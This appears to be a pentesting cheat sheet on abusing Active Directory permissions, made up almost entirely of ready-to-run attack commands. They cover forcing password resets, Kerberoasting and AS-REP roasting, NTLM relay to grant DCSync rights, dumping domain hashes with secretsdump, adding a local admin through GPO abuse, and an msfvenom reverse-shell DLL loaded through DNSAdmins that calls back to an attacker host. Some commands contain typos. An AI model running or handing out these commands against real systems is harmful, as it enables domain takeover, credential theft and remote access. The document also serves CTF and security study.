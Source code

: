 # Abusing-rights-in-a-Domain

Different domain users, have different rights. Some domain users have GenericAll, GenericWrite, WriteDacl, WriteOwner privilege on other domain users or groups. We can abuse these privileges and move further in domain.


### Abusing GenericAll Privilege

eg: (john have GenericAll priv on Exchange Windows Permissions group)

We can add user in Exchange Windows Permissions group and then we have full control.

```markdown
net group "Exchange Windows Permissions" john /add /domain
```

GenericAll Privilege on adams user. 3-Ways.

1. We can change the adam password.
```markdown
net user adams N3wPassw0rd! /domain
```
Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
2. We can set adams user SPN and do [Kerberoasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:jadams /nowrap
```

3. We can set adams account to [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -XOR @{UserAccountControl=4194304}
.\Rubeus.exe asreproast /user:jadams /nowrap
```

### Abusing GenericWrite Perm on a User
Here lily is the user on which we have generic write perm we can set this user to PreAuth and then by using [AS-REP Roasting](https://k4sth4.github.io/Kerberos/) we can get the user hash and crack it and login into system.
```markdown
Set-ADAccountControl -Identity manager -DoesNotRequirePreAuth $true
```
Now we can do [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).


### Abusing WriteDacl Priv on any Group
eg: claire has WriteDacl rights on the Backup_Admins group. We can add it to Backup_Admins group.
```markdown
net group backup_admins
net group backup_admins claire /add
```
NOTE: Open another shell if changes are not reflected.

### Abusing WriteDacl Priv On Domain by grant yourself the DcSync privileges
dan (user) has WriteDacl Perm on DC.

using [Impacket](https://github.com/SecureAuthCorp/impacket) tool:
```markdown
ntlmrelayx.py -t ldap://10.129.95.210 --escalate-user dan
```
(10.129.95.210 = target IP)

nevigate to http://127.0.0.1  and enter the user (dan & pass) now wait till it ask for you to run secretsdump.py on creds

### Abusing WriteOwner Privilege
We're tom user and getting ownership of claire and then change passwd of claire. Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```markdown
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### Abusing DNS Admin wrights
This way is just for CTFs, in real world this will gonna break the DNS service.

Step1. create a revshell via msfvenom
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f dll > shell.dll
```
Step2. set smbserver in the same dir where shell.dll
```markdown
impacket-smbserver -smb2support share .
```
Step3. exploitation on target machine (we don't need to upload shell.dll)
```markdown
dnscmd.exe /config /serverlevelplugindll \\10.10.x.x\share\shell.dll
sc.exe stop dns
sc.exe start dns
```
You will get a reverse shell.

### Abusing ForceChange Password from linux os
login as support user and audit2020 is the user whose passwd gonna change.
```markdown
rpcclient -U support 10.129.1.243 
setuserinfo2 audit2020 23 'Passw0rd!' 
```


### DcSync Attack
mrlky has Get-Changes privilege on the domain.
```markdown
secretsdump.py -just-dc mrlky:Football@10.10.10.103
```

### Abuse GPO Policy 
upload [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse)
```markdown
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hackzzdogs --GPOName "DCPolicy"
gpupdate /force
```
(hackzzdogs = current user name)

(DCPolicy = Group Policy Name you can find it on bloodhound)

Now we're in local administrator group.
```markdown
net loacalgroup administrators
```

